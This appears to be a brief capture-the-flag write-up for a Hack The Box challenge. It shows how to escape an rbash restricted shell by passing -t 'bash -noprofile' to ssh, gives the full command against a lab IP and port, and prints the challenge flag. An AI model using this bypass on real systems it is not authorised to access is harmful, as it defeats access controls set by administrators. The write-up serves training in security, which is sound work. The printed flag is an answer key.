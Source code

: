 In this challenge we get a docker and, in the Dockerfile, we can see that an rbash shell is created for the user.

![image](https://user-images.githubusercontent.com/80063008/227537610-78c05960-ea45-42d2-9d19-588d39c84314.png)

We can bypass this when we SSH into the machine using `-t 'bash -noprofile'`

```bash
ssh restricted@134.122.102.219 -p 31219 -t 'bash -noprofile'
```

This allows us to no longer be restricted and exit our home directory and read the flag:

![image](https://user-images.githubusercontent.com/80063008/227537791-cafce5e9-5b5a-4668-94b3-f4f7c0e234bd.png)

HTB{r35tr1ct10n5_4r3_p0w3r1355}